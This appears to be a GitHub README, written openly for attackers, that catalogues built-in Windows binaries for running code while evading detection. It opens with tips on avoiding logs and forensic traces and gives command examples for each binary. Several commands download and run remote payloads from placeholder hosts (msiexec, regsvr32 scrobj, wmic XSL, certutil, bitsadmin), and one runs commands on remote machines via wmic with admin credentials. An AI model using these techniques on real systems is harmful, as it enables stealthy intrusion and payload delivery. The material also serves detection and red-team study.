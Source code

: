 # CodeExecutionOnWindows

As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- csc.exe
  - Description: The .NET compiler can be used to compile a c# payload locally that can then be executed.
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  - Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
  
- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msbuild.exe
  - Description - Microsoft's build utility where you can supply an inline build task to execute code (https://msdn.microsoft.com/en-us/library/dd722601.aspx)
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \\server\payload

- msiexec.exe
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi

- mshta.exe
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');

- powershell.exe
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval.
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}

- wmic.exe
  - Description: Command line tool for WMI.
  - Example: wmic process call create "cmd.exe /c calc"
  - Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  - Example: wmic os get /format:"https://server/payload.xsl"

### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
  - Example: certutil -urlcache -split -f [URL] [output-file]
  
- bitsadmin.exe
  - Description: Allows you to download a payload.
  - Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]

